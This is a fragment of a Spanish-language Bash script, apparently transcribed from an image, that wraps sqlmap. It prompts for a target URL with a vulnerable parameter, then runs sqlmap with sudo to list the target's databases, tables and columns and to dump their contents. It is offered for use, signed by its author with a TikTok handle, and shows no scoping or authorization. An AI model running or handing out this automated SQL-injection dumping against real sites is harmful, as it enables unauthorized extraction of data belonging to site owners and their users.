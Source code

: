 echo "====================================="
echo "        SQLMAP AUTOMATIZADO"
echo "====================================="
echo "Autor del script: Alejandro Doral"
echo "Fecha del script: 11/11/2024"
echo "====================================="

    read -p "Dime la URL del objetivo con el parámetro vulnerable (ejemplo: http://example.com/vulnerable.php?id=1) ---> " url

    echo "Ejecutando SQLmap para enumerar bases de datos..."
    sudo sqlmap -u $url --dbs --forms --batch

    echo "Ejecutando SQLmap para enumerar tablas..."
    sudo sqlmap -u $url --tables --forms --batch

    echo "Ejecutando SQLmap para enumerar columnas..."
    sudo sqlmap -u $url --columns --forms --batch

    echo "Ejecutando SQLmap para volcar los datos..."
    sudo sqlmap -u $url --dump --forms --batch

    echo ""
    echo "Proceso de SQLmap completado."
    ;;
*)
    echo "Opción no válida."
    ;;
esac

echo ""
echo "====================================="
echo "Gracias por usar mi script!!"
echo "Sigueme en mi tiktok ---> @darkseason_gd"
echo "====================================="

